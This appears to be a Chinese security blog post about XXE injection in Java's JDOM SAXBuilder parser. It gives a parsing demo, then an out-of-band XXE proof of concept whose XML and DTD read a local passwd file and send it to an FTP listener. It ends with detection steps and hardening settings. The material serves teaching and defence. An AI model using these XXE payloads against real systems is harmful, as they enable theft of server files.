 # XML注入之SAXBuilder

2019-05-26 / [Java](https://www.mi1k7ea.com/tags/Java/)[Web安全](https://www.mi1k7ea.com/tags/Web安全/)[XML注入](https://www.mi1k7ea.com/tags/XML注入/)

## 0x01 何为SAXBuilder

SAXBuilder是一个JDOM解析器，能将路径中的XML文件解析为Document对象。

SAXBuilder使用第三方SAX解析器（默认情况下由JAXP选择，或者您可以手动配置）来处理解析任务，并使用SAXHandler的实例来侦听SAX事件，以便使用JDOM内容构造文档一个JDOMFactory。

## 0x02 常规用法Demo

需要下载org.jdom的jar包：http://www.jdom.org/dist/binary/jdom-2.0.6.zip

先定义一个user.xml，用于让DocumentBuilder来解析：

```
<?xml version="1.0" encoding="UTF-8"?>
<user>
    <name>Mi1k7ea</name>
    <sex>male</sex>
    <age>20</age>
</user>
```

Demo代码：

```
public class test {
    public static void main(String[] args) throws Exception{
        File f = new File("user.xml");
        saxBuilder(f);
    }

    public static void saxBuilder(File f){
        try {
            SAXBuilder saxBuilder = new SAXBuilder();
            org.jdom2.Document d = saxBuilder.build(f);
            Element root = d.getRootElement();
            List<Element> childs = root.getChildren();
            for (Element child : childs){
                String name = child.getName();
                String text = child.getText();
                System.out.println(name + ":" + text);
            }
        } catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

运行后，发现成功解析了user.xml的内容：

![img](https://www.mi1k7ea.com/2019/05/26/XML%E6%B3%A8%E5%85%A5%E4%B9%8BSAXBuilder/1.png)

## 0x03 XML注入漏洞验证

具体的步骤参考之前的博客[《XML注入之DocumentBuilder与XXE攻击防御》](https://www.mi1k7ea.com/2019/02/13/XML注入之DocumentBuilder/)，这里不再赘述。

下面只进行无回显外带OOB攻击Demo：

```
public class test {
    public static void main(String[] args) throws Exception{
        File f = new File("user.xml");
        saxBuilder(f);
    }

    public static void saxBuilder(File f){
        try {
            SAXBuilder saxBuilder = new SAXBuilder();
            org.jdom2.Document d = saxBuilder.build(f);
        } catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

ftp.xml

```
<?xml version="1.0"?>
<!DOCTYPE ANY[
        <!ENTITY % file SYSTEM "file:///e:/passwd">
        <!ENTITY % remote SYSTEM "http://127.0.0.1/xxe/ftp.dtd">
        %remote;
        %all;
        ]>
<root>&send;</root>
```

ftp.dtd

```
<!ENTITY % all "<!ENTITY send SYSTEM 'ftp://127.0.0.1:21/%file;'>">
```

运行本地FTPServer接收数据：

![img](https://www.mi1k7ea.com/2019/05/26/XML%E6%B3%A8%E5%85%A5%E4%B9%8BSAXBuilder/2.png)

## 0x04 检测方法

1、在Java项目中搜索org.jdom下的SAXBuilder，排查是否使用了该API解析XML文档内容；

2、若使用了，则进一步排查是否禁用了不安全的操作，具体的是看setFeature()的设置是否存在绕过的可能；

3、除了setFeature()的设置外，检查Reader在read()解析xml数据之前是否采用setEntityResolver()的方式来设置自定义实体解析方式；

## 0x05 防御方法

```
saxBuilder.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
saxBuilder.setFeature("http://xml.org/sax/features/external-general-entities", false);
saxBuilder.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
saxBuilder.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
```